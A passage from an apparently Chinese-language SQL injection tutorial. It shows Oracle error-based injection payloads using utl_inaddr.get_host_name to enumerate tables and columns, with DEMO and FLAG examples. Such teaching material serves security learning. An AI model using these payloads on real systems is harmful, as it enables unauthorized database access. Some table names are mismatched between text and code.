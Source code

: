 *   user_tables
    
*   显示当前用户拥有的表
    

```
select (select distinct owner from all_tables where rownum=1) from dual;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl5w5LyuUcGvGhibhyq6xdLFJlk7cWKbawbRM80UVsL0q7gnd4v8CyYDw/640?wx_fmt=png)

对应的 SQL 注入链接如下，爆出当前用户下的表信息如下，SYS 是第一个，后续的表可以陆续爆出来。

```
1 and 1=utl_inaddr.get_host_name((select table_name from user_tables where rownum=1)) --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlux6LgJ6LicJUichlXYTAE2LiaZZLZ4HAuupKMkEH3I8XF032Jia2qplpGA/640?wx_fmt=png)

**第四步，爆出当前用户下的表。**  
SQL 语句如下：

```
select table_name from user_tables where rownum=1;
```

输出结果如下图所示，可以看到 DEMO 表。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGloZfyzj8kOfRhIQNhgxgibStLG2ibm8FFjyT1vb9iaRoF3q1gwsVr2Pgpg/640?wx_fmt=png)

对应的 SQL 注入链接如下。

```
1 and 1=utl_inaddr.get_host_name((select table_name from user_tables where rownum=1)) --
```

该用户下的第一个表是 DEMO，爆出其他表的方法和前面类似，使用 not in 或不等于关键词。

```
1 and 1=utl_inaddr.get_host_name((select table_name from user_tables where rownum=1 and table_name <>'DEMO')) --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlMnogwWDXtXCibM4UeqPicPIaswJuULhH3u2UCVyP2bRLpkBPQqlh8PxA/640?wx_fmt=png)

**第五步，爆破指定表下的列名。**  
假设现在作者想爆 FLAG 表下的列。SQL 语句如下：

```
select column_name from user_tab_columns where table_name='DEMO' and rownum=1;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGltNiaKuic8lH6UWic07cSb4VKprzPpofJJnIVGa5iajLSPhzvLLw6JYWibLQ/640?wx_fmt=png)

对应的 SQL 注入链接如下：

```
1 and 1=utl_inaddr.get_host_name((select column_name from user_tab_columns where table_name='FLAG' and rownum=1)) --
```
